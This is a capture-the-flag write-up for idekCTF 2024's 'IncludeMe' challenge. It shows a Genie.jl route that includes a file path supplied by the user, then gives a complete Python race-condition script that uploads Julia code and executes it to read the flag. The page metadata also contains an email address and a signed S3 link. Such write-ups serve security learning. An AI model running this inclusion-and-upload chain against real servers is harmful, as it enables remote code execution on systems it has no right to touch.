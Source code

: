 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4663HA5IOXG%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T100951Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDIaCXVzLXdlc3QtMiJIMEYCIQCV62P6ghwTFu0WGwEW2SHdN9qhof7pUJ14VjkyTcBoUwIhALzdA2vZ%2BGoE4v9tAyIxkl5msAqH8YFGZMymuweQhgdNKogECOv%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1Igy3A1DjGrVnFrOVxqoq3AMHHbylMvawg%2Bmf7mnBFkFHuqySVWwHT43fIa8HILpQX2OWg%2FqR6fJOtoPomMfofnPlrKwWIOEdatu3pnUXBX8DX1bI7e6gdYZDJsAuzFmPveu%2F2laveeeqMi9GlEjAhVpiJqppNGBamLalKoukpkQK%2BNo6thJ0tcKcVAU6epaJssUslssEJZDTjVaoFL02jxRyMCRZMz0qOHVKfxd%2BhzmhsSkhnDE0p3qpiyX7%2FtePFHl0DS3s%2FDXdFA%2F%2BTaih5mY9h208hUJ6QTo%2BHW6vjZJ4hWQl2Tl7oYZd1f6uwx3TYXlSaS83HMDIPBWaA286YbW8pr%2B8EVi5U5cPEbYDwqdsyT1i8XAlQxMbhb12M01ZCZK7TjYwwq1I4AdXE6tnjR1w6M9RTegsfN7fHEV%2BpS%2Bk59MXTyzp7Xqzf7uLKkpJver%2BNAo%2FkNTgoAUIAOU5sv71CLCTm%2BZ3aZ0edoVG7nPO%2FT0r69oQdt1BszQHzBWCXdHn8uM58mJ0ydva9yusLAY%2FHn4QDfJcVwHO54y9uCLlewe1W94ZhwmaMpJo06d9jCl%2B9LDcBfXpn6Pnpapq9cRX0G90bc48HsqMs4ptOX5tD9H2cWwOtmEQTZPxGe5YoDRC1LLKTiPowuY3yjD%2BisHBBjqkAW90rUoQ%2BXoJT5Zc4aBmxgpdzJPelhFtFAJGnvElNveL03TRih1EZfFdRvFgOr67amspUBGX%2B01f4QcbsSro%2BftAqKWqGx4TwpUkp5OCSM%2FjTroR4r1U3Ieb42qAJMDdHNyQDImdUN%2BnjumPsU5q7ntFREpcFTM%2FLb1pnLWXS4s7j6Oo%2FeS75X3CwrwF6wgO8aNdWROaaIa40tsp31AdnUZ0H0VL\&X-Amz-Signature=adc6f2702ae209430f20c74f4fa6e39748f493a4a4905f0aad3bb3e1e8c5727b\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
